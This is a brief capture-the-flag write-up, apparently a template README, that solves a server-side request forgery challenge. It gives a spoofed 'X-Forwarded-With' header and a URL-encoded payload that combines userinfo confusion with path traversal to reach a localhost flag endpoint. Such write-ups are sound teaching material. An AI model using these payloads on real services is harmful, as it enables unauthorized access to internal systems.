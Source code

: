 # Challenge name

## Write-up

Add this header: `X-Forwarded-With: 127.0.0.1`  
and then visit this URL to trigger the SSRF `/request?endpoint=http%400%2f127.0.0.1%3a8000%2finternal%2f..%2f..%2fflag`   

which is equivalent to this endpoint `http@0/127.0.0.1:8000/internal/../../flag`



